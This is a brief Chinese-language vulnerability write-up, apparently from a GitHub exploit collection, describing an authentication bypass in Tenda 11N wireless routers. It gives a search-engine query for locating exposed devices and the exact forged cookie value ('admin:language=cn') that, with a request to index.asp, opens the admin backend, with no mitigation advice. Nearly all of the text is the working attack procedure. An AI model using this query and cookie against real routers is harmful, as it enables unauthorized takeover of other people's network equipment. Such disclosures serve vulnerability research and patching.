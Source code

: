 # 

# Tenda 11N无线路由器 Cookie 越权访问漏洞

## 漏洞描述

Tenda 11N无线路由器由于只验证Cookie，导致任意用户伪造Cookie即可进入后台

## 漏洞影响

```
Tenda 11N无线路由器
```

## 网络测绘

```
app="TENDA-11N无线路由器"
```

## 漏洞复现

登录页面

![image-20220519180949727](./images/202205191809768.png)

添加Cookie, 访问 index.asp 进入后台

```
admin:language=cn
```

![image-20220519181248549](./images/202205191812628.png)
